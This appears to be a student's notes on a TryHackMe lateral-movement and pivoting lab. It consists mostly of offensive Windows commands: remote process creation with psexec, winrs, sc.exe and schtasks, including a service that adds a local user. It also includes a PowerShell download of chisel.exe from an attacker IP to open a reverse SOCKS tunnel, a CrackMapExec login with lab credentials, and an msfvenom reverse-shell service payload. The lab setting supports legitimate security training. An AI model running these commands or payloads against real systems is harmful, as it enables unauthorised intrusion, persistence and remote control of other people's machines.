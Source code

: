 
## Spawning Processes Remotely

- Psexec
	- `psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe`
- Remote Process Creation Using WinRM
	- `winrs.exe -u:Administrator -p:Mypass123 -r:target cmd`
- Remotely Creating Services Using sc
	- Start
		- `sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto`
		- `sc.exe \\TARGET start THMservice`
	- Stop
		- `sc.exe \\TARGET stop THMservice`
		- `sc.exe \\TARGET delete THMservice`
- Creating Scheduled Tasks Remotely
	- Start
		- `schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00`
		- `schtasks /s TARGET /run /TN "THMtask1"`
	- Stop
		- `schtasks /S TARGET /TN "THMtask1" /DELETE /F`


### Using service

Host chisel

```bash
ln -s /opt/sectools/tunnel/chisel.exe .
python -m http.server 80
```

```bash
chisel server -p 81 --reverse -v
```

Access target:

```bash
sshpass -p 'EZpass4ever' ssh -o "StrictHostKeyChecking no" t1_leonard.summers@thmjmp2.za.tryhackme.com
```

Open socks proxy back to attacker's machine, then forward port `1111` listening on `THMJMP2`'s `0.0.0.0` ' to attacker's localhost on port `1111`

```bash
powershell -ep bypass
(new-object net.webclient).downloadfile("http://10.50.17.90/chisel.exe", "C:\programdata\chisel.exe")
C:\programdata\chisel.exe client 10.50.17.90:81 R:socks 0.0.0.0:1111:127.0.0.1:1111
```

Upload backdoor to `thmiis`

```bash
┌──(kali㉿kali)-[~/thm/lateralmovementandpivoting]
└─$ proxychains -q cme smb thmiis.za.tryhackme.com -u 't1_leonard.summers' -p 'EZpass4ever'
SMB         thmiis.za.tryhackme.com 445    THMIIS           [*] Windows 10.0 Build 17763 x64 (name:THMIIS) (domain:za.tryhackme.com) (signing:False) (SMBv1:False)
SMB         thmiis.za.tryhackme.com 445    THMIIS           [+] za.tryhackme.com\t1_leonard.summers:EZpass4ever (Pwn3d!)

┌──(kali㉿kali)-[~/thm/lateralmovementandpivoting]
└─$ mkdir www && cd www

┌──(kali㉿kali)-[~/thm/lateralmovementandpivoting/www]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=lateralmovement LPORT=1111 -f exe-service -o rev.exe
```